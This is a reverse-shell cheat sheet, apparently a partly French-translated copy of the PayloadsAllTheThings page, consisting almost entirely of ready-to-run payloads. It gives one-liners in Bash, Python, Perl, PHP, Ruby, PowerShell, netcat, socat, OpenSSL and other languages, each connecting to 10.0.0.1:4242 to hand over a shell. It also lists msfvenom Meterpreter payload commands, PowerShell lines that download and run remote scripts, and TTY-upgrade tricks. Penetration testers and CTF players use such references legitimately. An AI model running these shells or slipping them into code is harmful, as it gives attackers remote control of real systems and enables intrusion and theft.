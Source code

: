 REVERSE SHELL
=============

**Source** : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

Sommaire
--------

-  `Reverse Shell <#reverse-shell>`__

   -  `Awk <#awk>`__
   -  `Automatic Reverse Shell Generator <#revshells>`__
   -  `Bash TCP <#bash-tcp>`__
   -  `Bash UDP <#bash-udp>`__
   -  `C <#c>`__
   -  `Dart <#dart>`__
   -  `Golang <#golang>`__
   -  `Groovy Alternative 1 <#groovy-alternative-1>`__
   -  `Groovy <#groovy>`__
   -  `Java Alternative 1 <#java-alternative-1>`__
   -  `Java Alternative 2 <#java-alternative-2>`__
   -  `Java <#java>`__
   -  `Lua <#lua>`__
   -  `Ncat <#ncat>`__
   -  `Netcat OpenBsd <#netcat-openbsd>`__
   -  `Netcat BusyBox <#netcat-busybox>`__
   -  `Netcat Traditional <#netcat-traditional>`__
   -  `NodeJS <#nodejs>`__
   -  `OpenSSL <#openssl>`__
   -  `Perl <#perl>`__
   -  `PHP <#php>`__
   -  `Powershell <#powershell>`__
   -  `Python <#python>`__
   -  `Ruby <#ruby>`__
   -  `Socat <#socat>`__
   -  `Telnet <#telnet>`__
   -  `War <#war>`__

-  `Meterpreter Shell <#meterpreter-shell>`__

   -  `Windows Staged reverse TCP <#windows-staged-reverse-tcp>`__
   -  `Windows Stageless reverse TCP <#windows-stageless-reverse-tcp>`__
   -  `Linux Staged reverse TCP <#linux-staged-reverse-tcp>`__
   -  `Linux Stageless reverse TCP <#linux-stageless-reverse-tcp>`__
   -  `Other platforms <#other-platforms>`__

-  `Spawn TTY Shell <#spawn-tty-shell>`__
-  `References <#references>`__

Reverse Shell
-------------

Bash TCP
~~~~~~~~

.. code:: bash

   bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

   0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196

   /bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1

Bash UDP
~~~~~~~~

.. code:: bash

   Victim:
   sh -i >& /dev/udp/10.0.0.1/4242 0>&1

   Listener:
   nc -u -lvp 4242

N'oubliez pas de vÃ©rifier auprÃ¨s des autres shells : sh, ash, bsh, csh, ksh, zsh,
pdksh, tcsh, bash

Socat
~~~~~

.. code:: bash

   user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
   user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242

.. code:: bash

   user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242

Le binaire statique de socat se trouve Ã  l'adresse suivante
`https://github.com/andrew-d/static-binaries <https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat>`__

Perl
~~~~

.. code:: perl

   perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

   perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

.. note:: Windows uniquement

.. code:: perl

   perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

Python
~~~~~~

Linux uniquement

IPv4

.. code:: python

   export RHOST="10.0.0.1";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

.. code:: python

   python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

.. code:: python

   python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

.. code:: python

   python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'

IPv4 (No Spaces)

.. code:: python

   python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

.. code:: python

   python -c 'socket=__import__("socket");subprocess=__import__("subprocess");os=__import__("os");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

.. code:: python

   python -c 'socket=__import__("socket");subprocess=__import__("subprocess");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'

IPv4 (No Spaces, Shortened)

.. code:: python

   python -c 'a=__import__;s=a("socket");o=a("os").dup2;p=a("pty").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect(("10.0.0.1",4242));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'

.. code:: python

   python -c 'a=__import__;b=a("socket");p=a("subprocess").call;o=a("os").dup2;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("10.0.0.1",4242));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'

.. code:: python

   python -c 'a=__import__;b=a("socket");c=a("subprocess").call;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("10.0.0.1",4242));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'

IPv4 (No Spaces, Shortened Further)

.. code:: python

   python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("10.0.0.1",4242));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'

.. code:: python

   python -c 'a=__import__;b=a("socket").socket;p=a("subprocess").call;o=a("os").dup2;s=b();s.connect(("10.0.0.1",4242));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'

.. code:: python

   python -c 'a=__import__;b=a("socket").socket;c=a("subprocess").call;s=b();s.connect(("10.0.0.1",4242));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'

IPv6

.. code:: python

   python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

IPv6 (No Spaces)

.. code:: python

   python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

IPv6 (No Spaces, Shortened)

.. code:: python

   python -c 'a=__import__;c=a("socket");o=a("os").dup2;p=a("pty").spawn;s=c.socket(c.AF_INET6,c.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'

Windows uniquement

.. code:: bash

   C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"

PHP
~~~

.. code:: bash

   php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
   php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
   php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'
   php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'
   php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
   php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'

.. code:: bash

   php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

Ruby
~~~~

.. code:: ruby

   ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

   ruby -rsocket -e'exit if fork;c=TCPSocket.new("10.0.0.1","4242");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'

   .. note:: Windows uniquement

   ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

Golang
~~~~~~

.. code:: bash

   echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

Netcat Traditional
~~~~~~~~~~~~~~~~~~

.. code:: bash

   nc -e /bin/sh 10.0.0.1 4242
   nc -e /bin/bash 10.0.0.1 4242
   nc -c bash 10.0.0.1 4242

Netcat OpenBsd
~~~~~~~~~~~~~~

.. code:: bash

   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f

Netcat BusyBox
~~~~~~~~~~~~~~

.. code:: bash

   rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f

Ncat
~~~~

.. code:: bash

   ncat 10.0.0.1 4242 -e /bin/bash
   ncat --udp 10.0.0.1 4242 -e /bin/bash

OpenSSL
~~~~~~~

Attacker:

.. code:: bash

   user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
   user@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
   or
   user@attack$ ncat --ssl -vv -l -p 4242

   user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s

TLS-PSK (does not rely on PKI or self-signed certificates)

.. code:: bash

   # generate 384-bit PSK
   # use the generated string as a value for the two PSK variables from below
   openssl rand -hex 48 
   # server (attacker)
   export LHOST="*"; export LPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; openssl s_server -quiet -tls1_2 -cipher PSK-CHACHA20-POLY1305:PSK-AES256-GCM-SHA384:PSK-AES256-CBC-SHA384:PSK-AES128-GCM-SHA256:PSK-AES128-CBC-SHA256 -psk $PSK -nocert -accept $LHOST:$LPORT
   # client (victim)
   export RHOST="10.0.0.1"; export RPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; export PIPE="/tmp/`openssl rand -hex 4`"; mkfifo $PIPE; /bin/sh -i < $PIPE 2>&1 | openssl s_client -quiet -tls1_2 -psk $PSK -connect $RHOST:$RPORT > $PIPE; rm $PIPE

Powershell
~~~~~~~~~~

.. code:: bash

   powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

.. code:: bash

   powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

.. code:: bash

   powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')

Awk
~~~

.. code:: bash

   awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

Java
~~~~

.. code:: bash

   Runtime r = Runtime.getRuntime();
   Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do $line 2>&5 >&5; done'");
   p.waitFor();

Java Alternative 1
^^^^^^^^^^^^^^^^^^

.. code:: bash

   String host="127.0.0.1";
   int port=4444;
   String cmd="cmd.exe";
   Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

Java Alternative 2
^^^^^^^^^^^^^^^^^^

.. note:: C'est plus discret

.. code:: bash

   Thread thread = new Thread(){
       public void run(){
           // Reverse shell here
       }
   }
   thread.start();

Telnet
~~~~~~

.. code:: bash

   In Attacker machine start two listeners:
   nc -lvp 8080
   nc -lvp 8081

   In Victime machine run below command:
   telnet <Your_IP> 8080 | /bin/sh | telnet <Your_IP> 8081

War
~~~

.. code:: bash

   msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
   strings reverse.war | grep jsp # in order to get the name of the file

Lua
~~~

Linux uniquement

.. code:: bash

   lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"

Windows and Linux

.. code:: bash

   lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'

NodeJS
~~~~~~

.. code:: bash

   (function(){
       var net = require("net"),
           cp = require("child_process"),
           sh = cp.spawn("/bin/sh", []);
       var client = new net.Socket();
       client.connect(4242, "10.0.0.1", function(){
           client.pipe(sh.stdin);
           sh.stdout.pipe(client);
           sh.stderr.pipe(client);
       });
       return /a/; // Prevents the Node.js application form crashing
   })();


   or

   require('child_process').exec('nc -e /bin/sh 10.0.0.1 4242')

   or

   -var x = global.process.mainModule.require
   -x('child_process').exec('nc 10.0.0.1 4242 -e /bin/bash')

   or

   https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py

Groovy
~~~~~~

by `frohoff <https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76>`__

.. note:: Le reverse shell de Java fonctionne Ã©galement pour Groovy

.. code:: bash

   String host="10.0.0.1";
   int port=4242;
   String cmd="cmd.exe";
   Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

Groovy Alternative 1
^^^^^^^^^^^^^^^^^^^^

.. .. note::: C'est plus discret

.. code:: bash

   Thread.start {
       // Reverse shell here
   }

C
~

Compile with ``gcc /tmp/shell.c --output csh && csh``

.. code:: bash

   #include <stdio.h>
   #include <sys/socket.h>
   #include <sys/types.h>
   #include <stdlib.h>
   #include <unistd.h>
   #include <netinet/in.h>
   #include <arpa/inet.h>

   int main(void){
       int port = 4242;
       struct sockaddr_in revsockaddr;

       int sockt = socket(AF_INET, SOCK_STREAM, 0);
       revsockaddr.sin_family = AF_INET;       
       revsockaddr.sin_port = htons(port);
       revsockaddr.sin_addr.s_addr = inet_addr("10.0.0.1");

       connect(sockt, (struct sockaddr *) &revsockaddr, 
       sizeof(revsockaddr));
       dup2(sockt, 0);
       dup2(sockt, 1);
       dup2(sockt, 2);

       char * const argv[] = {"/bin/sh", NULL};
       execve("/bin/sh", argv, NULL);

       return 0;       
   }

Dart
~~~~

.. code:: bash

   import 'dart:io';
   import 'dart:convert';

   main() {
     Socket.connect("10.0.0.1", 4242).then((socket) {
       socket.listen((data) {
         Process.start('powershell.exe', []).then((Process process) {
           process.stdin.writeln(new String.fromCharCodes(data).trim());
           process.stdout
             .transform(utf8.decoder)
             .listen((output) { socket.write(output); });
         });
       },
       onDone: () {
         socket.destroy();
       });
     });
   }

RevShells
---------

https://www.revshells.com/ |image|

Meterpreter Shell
-----------------

Windows Staged reverse TCP
~~~~~~~~~~~~~~~~~~~~~~~~~~

.. code:: bash

   msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe

Windows Stageless reverse TCP
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

.. code:: bash

   msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe

Linux Staged reverse TCP
~~~~~~~~~~~~~~~~~~~~~~~~

.. code:: bash

   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf

Linux Stageless reverse TCP
~~~~~~~~~~~~~~~~~~~~~~~~~~~

.. code:: bash

   msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf

Other platforms
~~~~~~~~~~~~~~~

.. code:: bash

   $ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f elf > shell.elf
   $ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f exe > shell.exe
   $ msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f macho > shell.macho
   $ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f asp > shell.asp
   $ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.jsp
   $ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f war > shell.war
   $ msfvenom -p cmd/unix/reverse_python LHOST="10.0.0.1" LPORT=4242 -f raw > shell.py
   $ msfvenom -p cmd/unix/reverse_bash LHOST="10.0.0.1" LPORT=4242 -f raw > shell.sh
   $ msfvenom -p cmd/unix/reverse_perl LHOST="10.0.0.1" LPORT=4242 -f raw > shell.pl
   $ msfvenom -p php/meterpreter_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

Spawn TTY Shell
---------------

In order to catch a shell, you need to listen on the desired port.
``rlwrap`` will enhance the shell, allowing you to clear the screen with
``[CTRL] + [L]``.

.. code:: bash

   rlwrap nc 10.0.0.1 4242

   rlwrap -r -f . nc 10.0.0.1 4242
   -f . will make rlwrap use the current history file as a completion word list.
   -r Put all words seen on in- and output on the completion list.

Sometimes, you want to access shortcuts, su, nano and autocomplete in a
partially tty shell.

.. attention:: OhMyZSH pourrait casser cette astuce, un simple ``sh`` est recommandÃ©

   Le principal problÃ¨me ici est que zsh ne gÃ¨re pas la commande stty de la
   de la mÃªme faÃ§on que bash ou sh. [...] stty raw -echo ; fg [...] Si vous essayez de
   d'exÃ©cuter ceci en tant que deux commandes sÃ©parÃ©es, dÃ¨s que l'invite apparaÃ®t
   pour que vous exÃ©cutiez la commande fg, votre commande -echo a dÃ©jÃ  perdu
   son effet

.. code:: bash

   ctrl+z
   echo $TERM && tput lines && tput cols

   # for bash
   stty raw -echo
   fg

   # for zsh
   stty raw -echo; fg

   reset
   export SHELL=bash
   export TERM=xterm-256color
   stty rows <num> columns <cols>

or use ``socat`` binary to get a fully tty reverse shell

.. code:: bash

   socat file:`tty`,raw,echo=0 tcp-listen:12345

Spawn a TTY shell from an interpreter

.. code:: bash

   /bin/sh -i
   python3 -c 'import pty; pty.spawn("/bin/sh")'
   python3 -c "__import__('pty').spawn('/bin/bash')"
   python3 -c "__import__('subprocess').call(['/bin/bash'])"
   perl -e 'exec "/bin/sh";'
   perl: exec "/bin/sh";
   perl -e 'print `/bin/bash`'
   ruby: exec "/bin/sh"
   lua: os.execute('/bin/sh')

-  vi: ``:!bash``
-  vi: ``:set shell=/bin/bash:shell``
-  nmap: ``!sh``
-  mysql: ``! bash``

Alternative TTY method

::

   www-data@debian:/dev/shm$ su - user
   su: must be run from a terminal

   www-data@debian:/dev/shm$ /usr/bin/script -qc /bin/bash /dev/null
   www-data@debian:/dev/shm$ su - user
   Password: P4ssW0rD

   user@debian:~$ 

Fully interactive reverse shell on Windows
------------------------------------------

L'introduction de la pseudo-console (ConPty) dans Windows a beaucoup amÃ©liorÃ©
la faÃ§on dont Windows gÃ¨re les terminaux.

**ConPtyShell uses the
function**\  `CreatePseudoConsole() <https://docs.microsoft.com/en-us/windows/console/createpseudoconsole>`__\ **.
Cette fonction est disponible depuis Windows 10 / Windows Server 2019
version 1809 (build 10.0.17763).**

Server Side:

::

   stty raw -echo; (stty size; cat) | nc -lvnp 3001

Client Side:

::

   IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001

Offline version of the ps1 available at â€“>
https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1

References
----------

-  `Reverse Bash Shell One
   Liner <https://security.stackexchange.com/questions/166643/reverse-bash-shell-one-liner>`__
-  `Pentest Monkey - Cheat Sheet Reverse
   shell <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>`__
-  `Spawning a TTY Shell <http://netsec.ws/?p=337>`__
-  `Obtaining a fully interactive
   shell <https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell>`__

